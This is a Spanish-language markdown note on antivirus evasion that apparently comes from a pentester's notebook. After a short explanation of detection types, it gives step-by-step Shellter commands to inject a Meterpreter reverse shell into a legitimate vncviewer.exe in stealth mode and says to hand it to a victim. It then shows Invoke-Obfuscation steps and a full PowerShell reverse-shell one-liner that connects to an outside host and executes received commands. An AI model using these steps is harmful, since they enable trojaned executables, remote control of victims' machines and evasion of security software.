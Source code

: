 # Evasión de antivirus (AV)

Tags: #AV #Evasion #Shellter

Evadir las defensas: Consiste de una técnica que los adversarios usan para evitar la detección a través de su compromiso. Las técnicas usadas para la evasión incluyen desinstalar/deshabilitar los softwares de seguridad, o encriptar data y scripts. 

1. Signature based detection: Es una secuencia de bytes que únicamente identifican malware. Como resultado, tendras que asegurarte que tu exploit o payload no encaje con cualquier firma conocida de la base de datos del AV. Podemos Bypass la firma basada en deteccion modificando la secuencia de byte del malware.
2. Heuristic based detection: Confía en reglas o decisiones para determinar si un binario es malicioso. 
3. Behavior based detection: Confía en identificar malware monitoreando su comportamiento. 
## Shellter

* Shellter: Nos ayuda a inyectar una ReverShell en un archivo legitimo ejecutables en Windows.

```bash 
❯ apt install shellter                             # Instalamos Shellter, Shellter solo soporta 32 bit Payload
❯ apt install wine32
❯ dpkg --add-architecture i386 
```

```bash 
❯ cd /usr/share/windows-resources/shellter/        # Path donde se ecuentra Shellter

❯ wine shellter.exe                                # Ejecutamos Shellter
	❯ A                                           # Modo automatico 
	❯ /home/Desktop/AVBypass/vncviewer.exe        # Utilizaremos el 'vncviewer.exe' para inyectarle codigo malicioso
	❯ y                                           # Para que al momento de que se ejecute el .exe funcione con normalidad (Stealth mode)
	❯ L                                           # Listed payload or custom
	❯ 1                                           # Escogemos la opcion 1 (Meterpreter_Reverse_tcp)
	❯ <IP>                                        # Set LHOST
	❯ 443                                         # Set LPORT
```

Solo debemos de pasar el nuevo archivo .exe a la maquina victima y ejecutarlo para obtener la Revershell. 

## Ocultación

Funciona en Windows 10 desactivando (Cloud-delivered protection, Automatic sample submission)

* [Obfuscation-Powershell](https://github.com/danielbohannon/Invoke-Obfuscation)
* [Revershell-Powershell](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#powershell)

Debemos de clonarnos el repo anterior y dentro de Powershell hacer lo siguiente. 
```bash 
❯ apt install powershell -y                            # Instalamos Powershell

❯ pwsh                                                 # Iniciamos Powershell en Linux
	❯ cd ./Invoke-obfuscation/ 
	❯ Import-Module ./Invoke-Obfuscation.psd1         # Importamos el modulo 
	❯ cd ..
	❯ Invoke-Obfuscation                              # Ejecutamos e iniciamos Invoke-Obfuscation

# Dentro de Invoke-Obfuscation
	❯ SET SCRIPTPATH /home/kali/shell.ps1             # Colocamos el tipo de Shell
	❯ ENCODING 
		❯ 1                                          # 1 Tipo = ASCII
	❯ BACK
	❯ AST
		❯ ALL
			❯ 1
	
```

```bash 
# Crearemos una Revershell en la maquina victima 

❯ powershell powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.0.0.1',4242);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte =  [text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```